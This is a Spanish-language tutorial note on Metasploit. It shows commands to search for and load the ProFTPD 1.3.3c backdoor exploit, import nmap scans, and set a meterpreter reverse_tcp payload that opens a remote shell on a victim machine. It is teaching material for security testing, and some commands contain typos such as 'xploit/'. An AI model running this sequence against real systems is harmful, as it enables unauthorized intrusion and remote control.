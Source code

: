 Metasploit framework es una herramienta desarrollada en Perl y Ruby en su mayor parte, que está **enfocada a auditores de seguridad y equipos Red Team y Blue Team**.

**Es una herramienta muy completa que tiene muchísimos exploits**, que son vulnerabilidades conocidas, en las cuales tienen también unos módulos, llamados [[Payload]], que son los códigos que explotan estas vulnerabilidades.

También **dispone de otros tipo de módulos**, por ejemplo, los encoders, que son una especie de códigos de cifrado para evasión de antivirus o sistemas de seguridad perimetral.

## Uso
	msfdb run
Esto crear la base de datos y el usuario, es decir inicializa la herramiente, *esto solo se ejecuta cuando no hemos hecho uso de esta.*

	msfconsole
Ejecuta el framework de mestasploit

	searchsploit ProFTP 1.3.3.c
Lo que hace es buscar meta sploit que sean vulnerables para la version del servicio.

-ProFTP 1.3.3.c *es la version del servicio donde queremos buscar vulnerabilidades*

	use xploit/unix/ftp/proftpd_133c_backdoor
Usa el metasploit que se esta en la siguiente ruta

	show options
Muetra los datos que debemos de introducir en el sploit que queremos utilizar

	set RHOSTS 192.168.1.68
Esto sirve para setear valores que el splot nos pide

-RHOSTS *Es el nombre del parametro que es requerido por el sploit*
-192.168.1.68 *Es el valor el valor que le damos al parametro RHOSTS*

**Parametros**
-x *Muestra el archivo*

## nmap
Ahora podemos realizar escaneos dentro de metaploit con la finalidad de facilitar el uso entre metasploit, ya que podemos vizualizar todo la informacion del escaneo.

Tambien podemo tomar una db que contenga todos los datos de un scan e importarlo a metasploit.

	nmap -sP 192.168.1.0/24 -oX scan-result.xml

-oX *Guarda el resultado en un archivo xml*

	db_import scan-result.xml
Este es el formato adecuado para importar la informacion a metasploit.

	hosts
Vizualizar los escaneos 

	services
Visualizar los servicios que corren en un determinado escaneo


## Creacion de listener
Ahora cuando un exploit nos permite la execucion remota de comando, la mayoria de las veces nos enviamos una shell por tcp a nuestra maquina de forma manual con *netcat* pero esto se puede hacer desde metasploit.

Una vez que ya configuramos las opciones del exploit procederemos a cargar un [[Payload]] que defina una ruta en escucha para recibir la shell desde la maquina victima.

	set payload windows/meterpreter/reverse_tcp

Ahora por lo tanto hay que establecer las opciones para el payload, en este caso la ip y puerto que estara en escucha.

	set LHOST 192.168.1.73
	set LPORT 443

En caso de ser exitoso la explotacion podremos vizualizar algo asi como, y ya estariamos dentro de la maquina victima ,para obtener una consola interactiva solo faltaria el comando SHELL.

	[!] Meterpreter session 1 openend
	meterpreter> shell


